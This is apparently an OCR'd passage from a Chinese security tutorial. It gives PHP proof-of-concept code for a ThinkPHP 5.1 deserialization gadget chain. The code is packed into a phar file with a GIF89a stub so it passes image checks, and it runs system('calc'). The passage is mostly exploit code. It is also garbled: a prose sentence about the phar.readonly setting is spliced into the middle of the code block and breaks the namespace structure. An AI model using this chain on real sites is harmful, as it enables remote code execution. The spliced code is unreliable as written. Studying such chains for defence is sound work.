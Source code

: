 利用链使用了Tp5.1反序列化利用链(后续的阶段会对Tp反序列化利用链进行分析)，我们将该文件生成phar文件。

```plain
<?php
namespace think\process\pipes {
  class Windows
 {
    private $files;
    public function __construct($files)
   {
      $this->files = [$files];
   }
 }
}
namespace think\model\concern {
  trait Conversion
 {
 }
  trait Attribute
 {
    private $data;
    private $withAttr = ["v" => "system"];
    public function get()
   {
      $this->data = ["v" => "calc"];
   }
 }
这里生成我们的pahr文件，如果生成时报错了可以将php.ini配置文件中的phar.readonly选项设置为
Off就可以成功生成了。

}
namespace think {
  abstract class Model
 {
    use model\concern\Attribute;
    use model\concern\Conversion;
 }
}
namespace think\model{
  use think\Model;
  class Pivot extends Model
 {
    public function __construct()
   {
      $this->get();
   }
 }
}
namespace {
  $conver = new think\model\Pivot();
  $a = new think\process\pipes\Windows($conver);
  @unlink("phar.phar");
  $phar = new Phar("phar.phar"); //后缀名必须为phar
  $phar->startBuffering();
  $phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>"); //设置stub
  $phar->setMetadata($a); //将自定义的meta-data存入manifest
  $phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
  $phar->stopBuffering();
}
?>
```
